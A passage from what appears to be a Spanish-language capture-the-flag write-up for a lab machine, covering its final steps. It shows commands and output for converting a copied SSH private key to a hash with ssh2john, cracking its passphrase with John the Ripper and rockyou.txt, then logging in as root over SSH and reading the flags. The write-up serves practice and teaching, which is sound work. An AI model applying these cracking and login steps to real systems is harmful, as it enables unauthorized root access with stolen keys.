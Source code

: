 <br>

<h3 id="cracking">Crackeando Llave Privada SSH y Logueandonos como Root</h3>

Una vez que hayas copiado la llave privada, tenemos que convertirla en un hash para que **JohnTheRipper** lo pueda crackear.

Lo haremos con la herramienta **ssh2john**:
```bash
ssh2john id_rsa > hash
```

Y usemos **JohnTheRipper** junto al **rockyou.txt** para crackearlo:
```bash
john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
angels1          (id_rsa)     
1g 0:00:01:22 DONE (2025-04-24 16:40) 0.01207g/s 33.03p/s 33.03c/s 33.03C/s my3kids..outlaw
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Muy bien, tenemos la frase de la llave privada.

Vamos a loguearnos en la máquina víctima como **Root** al **servicio SSH**, usando la llave privada y la frase:
```bash
ssh -i id_rsa root@192.168.10.20
Enter passphrase for key 'id_rsa': 
Linux SinPLomo98 6.1.0-21-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.90-1 (2024-05-03) x86_64
Last login: Thu May 16 16:49:15 2024
root@SinPLomo98:~# whoami
root
```
Estamos dentro.

Ya solo tenemos que buscar las flags:
```bash
root@SinPLomo98:~# cat root.txt 
...
root@SinPLomo98:~# cat /home/tcuser/user.txt
...
```
Y con esto, completamos la máquina.


<br>
<br>
<div style="position: relative;">
  <h2 id="Links" style="text-align:center;">Links de Investigación</h2>
</div>

